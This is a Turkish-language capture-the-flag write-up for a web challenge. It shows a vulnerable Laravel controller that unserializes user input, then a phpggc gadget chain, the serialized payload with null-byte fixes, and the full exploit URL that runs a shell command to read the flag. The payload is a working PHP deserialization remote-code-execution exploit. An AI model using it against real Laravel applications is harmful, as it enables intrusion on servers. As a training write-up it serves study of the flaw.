


# Esaret - Web 400


```
http://34.205.154.108  

```
URL'ye gittik ve karsimiza bu  geldi


Alttaki kismi decode edip html olarak geri koyduk. Ve karşımıza `php` kodu belirdi

``` php

<?php

namespace App\Http\Controllers;

use Illuminate\Foundation\Bus\DispatchesJobs;
use Illuminate\Http\Request;
use Illuminate\Routing\Controller as BaseController;
use Illuminate\Foundation\Validation\ValidatesRequests;
use Illuminate\Foundation\Auth\Access\AuthorizesRequests;

class Controller extends BaseController
{
    use AuthorizesRequests, DispatchesJobs, ValidatesRequests;

    public function home(Request $request)
    {
        $data = $request->get('data');

        // show welcome, hide /flag.txt
        if(false == $request->has('data'))
            return view('welcome',  ['code' => highlight_file(__FILE__,true)]);

        // Check
        if($request->get('checksum') !== md5($data))
            abort(403, "Esaret..!");

        // Look for the class we want
        $object = unserialize(base64_decode($data));
        if(isset($object['c']))
        {
            $object['c']->open();
        }
        return view('welcome');
    }

    public function phpinfo()
    {
        phpinfo();
    }
}

```

`data` parametrisne `base64` gelen veri, `checksum` parametresi ile uyusuyorsa `base64` decode edilip `unserialize` ediliyordu.
`c` arrayini open metodu ile cagiriliyordu. En basta amele gibi class ismi arasakta birsey elde edemedik.

Uzunca bir arastirma sornasi ( 4 gün uyumadan )
[şöyle](https://github.com/ambionics/phpggc) birşeye denk geldik içinde laravel içinde `RCE` bulunmakta idi. Tamam diyip yola koyulduk.

```
th3-j4ck4l:~$ phpggc laravel/rce1 'cat /var/www/html/public/flag.txt' -s
O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"%00*%00events";O:15:"Faker\Generator":1:{s:13:"%00*%00formatters";a:1:{s:8:"dispatch";s:6:"assert";}}s:8:"%00*%00event";s:33:"cat /var/www/html/public/flag.txt";}
```

Şeklinde çıktı veriyordu. Bu çıktı `-s` parametresi yüzünden `urlencode` edilmiş haliydi. Bunu `c` arrayine atıp çalıştırmak istedik.

``` php
<?php

$tmp=unserialize(urldecode('O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"%00*%00events";O:15:"Faker\Generator":1:{s:13:"%00*%00formatters";a:1:{s:8:"dispatch";s:6:"assert";}}s:8:"%00*%00event";s:33:"cat /var/www/html/public/flag.txt";}'));

$dizi = array(
    "c" => $tmp
);
print_r(serialize($dizi));

 ?>
```

ile bunu `c` arrayine attık.

``` php
a:1:{s:1:"c";O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"*events";O:15:"Faker\Generator":1:{s:13:"*formatters";a:1:{s:8:"dispatch";s:6:"assert";}}s:8:"*event";s:33:"cat /var/www/html/public/flag.txt";}}
```
 fakat çıktıda hata vardı. `urlencode`'ta olan `nullbyte`'lar kayboluyordu. onlarıda eklememiz gerekecekti

 ``` php
a:1:{s:1:"c";O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:15:"Faker\Generator":1:{S:13:"\00*\00formatters";a:1:{S:8:"dispatch";s:6:"system";}}S:8:"\00*\00event";s:33:"cat /var/www/html/public/flag.txt";}}
 ```

 bunu `base64` ile encode edip `MD5` ile sumunu alıp yolladığımızda [ise](http://34.205.154.108/index.php?data=YToxOntzOjE6ImMiO086NDA6IklsbHVtaW5hdGVcQnJvYWRjYXN0aW5nXFBlbmRpbmdCcm9hZGNhc3QiOjI6e1M6OToiXDAwKlwwMGV2ZW50cyI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntTOjEzOiJcMDAqXDAwZm9ybWF0dGVycyI7YToxOntTOjg6ImRpc3BhdGNoIjtzOjY6InN5c3RlbSI7fX1TOjg6IlwwMCpcMDBldmVudCI7czozMzoiY2F0IC92YXIvd3d3L2h0bWwvcHVibGljL2ZsYWcudHh0Ijt9fQ==&checksum=e0a4da073c328ba83afa67a0a09766eb) ;



flag karşımızda idi;


```
DKHOS_{EsaRetTenKurTuluSGeREKTirirCEsAReT}
```
